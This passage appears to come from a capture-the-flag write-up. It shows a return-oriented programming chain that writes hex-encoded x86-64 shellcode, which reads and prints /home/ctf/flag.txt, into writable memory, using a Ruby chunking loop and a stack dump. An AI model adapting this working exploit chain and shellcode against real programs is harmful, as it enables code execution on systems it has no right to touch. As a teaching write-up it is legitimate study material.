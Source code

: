 ```
.text:00000000004696D6                 pop     rax
.text:00000000004696D7                 pop     rdx
.text:00000000004696D8                 pop     rbx
.text:00000000004696D9                 retn
```

Then this to write the value from `rax` to the memory pointed to by `rdx`:

```
.text:0000000000416E10                 mov     [rdx], rax
.text:0000000000416E13                 retn
```

Thank you, `do_dlopen()` and `_IO_remove_marker()`, for having great suffixes!

From those two blocks, I created this loop to break the shellcode into 8 bytes and write them to the writable memory at an offset (note that I padded the shellcode to make suer we didn't chop off the end when chunking it into 8 byte blocks):

```ruby
SHELLCODE = ["b802000000e8130000002f686f6d652f6374662f666c61672e747874005fbe00000000ba000000000f055750b8000000005f5eba240000000f05b801000000bf01000000ba240000000f05b83c000000bf000000000f05cccccccccccccccc"].pack('H*')

# Break our shellcode into 8-byte chunks
offset = 0
stack = ""
SHELLCODE.scan(/.{8}/) do |code|
  # For each chunk, do:
  # rax = <offset we want to write code to>
  # rdx = <current 8 bytes of shellcode>
  # rbx = indifferent value - it's just along for the ride
  stack += [
    POP_RAX_POP_RDX_POP_RBX_RET,
    code.unpack('q').pop,
    WRITEABLE_MEMORY + offset,
    0x5a5a5a5a5a5a5a5a,
    MOV_RAX_PTR_EDX_RET,
  ].pack('q*')
  offset += 8
end
```

Which looks something like:

```
004696d6
13e800000002b8
004a6000
5a5a5a5a5a5a5a5a
00416e10
004696d6
2f656d6f682f0000
004a6008
5a5a5a5a5a5a5a5a
00416e10
004696d6
67616c662f667463
004a6010
5a5a5a5a5a5a5a5a
...
```
